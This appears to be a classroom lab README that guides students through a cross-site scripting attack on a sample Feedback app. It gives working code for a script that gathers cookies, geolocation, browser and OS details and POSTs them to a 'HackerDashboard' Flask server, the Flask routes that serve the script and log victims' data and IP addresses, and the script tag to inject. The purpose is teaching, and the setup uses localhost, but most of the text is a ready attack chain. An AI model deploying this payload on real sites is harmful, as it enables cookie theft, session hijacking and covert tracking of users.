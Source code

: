 Get the User Data on Dashboard
======================
In this activity, you will perform XSS attack using script from other server to get the user information.

<img src= "https://s3-whjr-curriculum-uploads.whjr.online/a344d5c0-4411-4ba5-aa97-8a33a30527b8.gif" width = "100%" height = "50%">


Follow the given steps to complete this activity.


1. Create a script in `HackerDashboard/static` folder.
   * Include jQuery from CDN
   ```
   var script = document.createElement('script');
   script.src = 'https://code.jquery.com/jquery-3.6.4.min.js';
   document.head.appendChild(script);
   ```
   * Collect browser data in function `collectBrowserData()`
   ```
   var browserData = {
        userAgent: navigator.userAgent,
        browserName: getBrowserName(),
        browserType: getBrowserType(),
        browserVersion: getBrowserVersion(),
        cookies: getCookies(),
        location: geolocationResult,
        currentTime: getCurrentTime(),
        screenSize: getScreenSize(),
        operatingSystem: getOperatingSystem(),
    };
   ```
   * Send user data to server path `/collect_browser_data` using ajax.
   ```
   $.ajax({
        url: 'http://127.0.0.1:5000/collect_browser_data',
        method: 'POST',
        contentType: 'application/json',
        data: JSON.stringify(browserData),
        success: function (response) {
            console.log('Data sent successfully:', response);
        }
    });
   ```
   
2. Open `app.py` and add code to fetch the `script.js` file and also collect data from user.
   * Add path to deliver `script.js`.
   ```
   @app.route('/script')
   def script():
        return send_from_directory('static', 'script.js')
   ```
   * Create path `/collect_browser_data` to get data when script runs.
   ```
   @app.route('/collect_browser_data', methods=['POST', 'GET'])
    def collect_browser_data():
        browserData variable   
        browserData = request.get_json()
        client_ip = request.remote_addr
        browserData['ipAddress'] = client_ip
        data.append(browserData)
        return jsonify({'status': 'success'})
   ```
3. Run HackerDashboard app.
4. Run the Feedback app and perform XSS attack by adding following script:
```
<script src="http://127.0.0.1:5000/script"></script>
```

Check if the data gets to Hacker Dashboard after the attack is performed.
